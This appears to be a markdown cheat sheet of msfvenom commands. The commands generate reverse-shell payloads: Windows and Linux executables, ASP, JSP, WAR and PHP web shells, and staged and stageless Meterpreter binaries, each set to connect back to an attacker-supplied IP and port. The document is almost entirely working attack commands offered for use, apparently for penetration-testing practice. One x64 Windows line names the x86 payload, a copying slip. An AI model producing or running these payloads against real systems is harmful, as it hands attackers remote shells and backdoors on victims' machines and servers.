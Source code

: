 *sourced from https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/*  

## Non-Meterpreter Binaries
### Staged Payloads for Windows
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
### Stageless Payloads for Windows
```
x86	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
### Staged Payloads for Linux
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
### Stageless Payloads for Linux
```
x86	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
## Non-Meterpreter Web Payloads
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
## Meterpreter Binaries
### Staged Payloads for Windows
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
### Stageless Payloads for Windows
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
### Staged Payloads for Linux
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
### Stageless Payloads for Linux
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
